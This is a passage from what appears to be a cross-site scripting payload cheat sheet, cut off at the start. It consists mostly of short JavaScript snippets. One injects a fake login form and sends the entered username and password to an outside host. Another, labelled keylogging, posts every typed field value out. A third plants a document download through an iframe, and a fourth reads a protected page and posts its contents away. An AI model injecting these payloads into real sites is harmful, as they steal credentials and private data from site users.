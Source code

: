    ```Option3
       p.setAttribute('type','password')
       p.setAttribute('name','password')
       f.appendChild(u)
       f.appendChild(p)
       document.body.appendChild(f)
       document.addEventListener('click',()=>{
         fetch(`https://example.com/?u=${
            u.value}&p=${p.value}
         `)    
       })
   ```

  **Keylogging**
   ```
       document.addEventListener('change', (e)=>{
         if(!e.target.matches('input,textarea'))
           return
         fetch('https://example.com',{
           method: 'POST',
           headers: {
             'Content-Type':'application/json'
           },
           body:JSON.stringify({
             key: e.target.value
           })
         })
       })
   ```
  
  **Macros - Malicious Macros**
   ```
       f=document.createElement('iframe')
       f.src='https://example.com/important.doc'
       document.body.appendChild(f)
   ```

  **Protected Pages**
   ```
       fetch('/page')
         .then((p)=>p.text()
           .then((t)=>
             fetch('https://example.com', {
               method:'POST',
               headers:{
                 'Content-Type':
                   'application/json'
               },
               body:JSON.stringify({p:t})
             }
           )
         )
       )
   ```
   